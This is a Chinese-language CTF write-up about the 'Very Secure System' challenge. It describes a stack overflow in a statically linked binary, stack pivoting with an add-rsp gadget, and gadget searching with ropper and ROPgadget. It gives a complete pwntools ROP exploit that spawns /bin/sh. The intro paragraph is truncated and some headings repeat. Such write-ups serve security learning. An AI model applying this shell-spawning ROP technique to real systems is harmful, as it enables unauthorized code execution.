 ```yaml
---
title: pwn --rop 
date: 2017-04-08 23:51:37
tags:
- pwn
- ctf
- rop
---
```

rop练习—Very Secure Systemrop 真爽。。题目链接：http://pan.baidu.com/s/1eSd0XTg 
注：.bak是原题，原题有个过10s自动退出程序的设置，不好调试，我用ida打了个patch，就是另一个文件，两个文件只有这一个区别漏洞分析：这个程序是静态加载的，所以got表没有用，顺带dynelf也不行，也没提供libc。但是有一个函数可以溢出，但是只溢出了
<!-- more -->
## rop练习—Very Secure System
### rop 真爽。。
#### 漏洞分析：~~~
add rsp，0x58
ret
~~~

这样的gadget来让esp指向mian函数中的那个1024字节的栈空间中，从而执行我们预先设置的rop链。所以我们需要在程序代码段中寻找一些gadget来进行rop攻击。

寻找gadget的两种方法(前提是装了rooper或者pwntools)：
~~~
ropper -f vss | grep "gadget you need"

ROPgadget --binary vss | grep "gadget you need"
~~~

下面是利用代码：
~~~
    from pwn import *
    add_esp_0x58 = 0x046f205  # bigger than 0x50 to exec other gadget preset on stack
    pop_rdi = 0x0401823
    pop_rdx = 0x043ae05
    pop_rsi = 0x0401937
    pop_rax = 0x046f208
    pop_rcx = 0x0462873
    bss_w =0x0006C5C80
    syscall = 0x045f2a5
    mov_rdi_rcx = 0x42AB0B    #hard to find
    binsh = "/bin/sh\x00"
    payload = ""
    payload += "py"
    payload += "b" * (0x48 - 2)
    payload += p64(add_esp_0x58)
    payload += "a" * (0x58 - 0x50)
    payload += p64(pop_rax)
    payload += p64(59)
    payload += p64(pop_rdi)
    payload += p64(bss_w)
    payload += p64(pop_rcx)
    payload += binsh
    payload += p64(mov_rdi_rcx)
    payload += p64(pop_rsi)
    payload += p64(0)
    payload += p64(pop_rdx)
    payload += p64(0)
    payload += p64(syscall)

    io = process("./vss")
    print io.recv()
    io.send(payload)
    io.interactive()
~~~
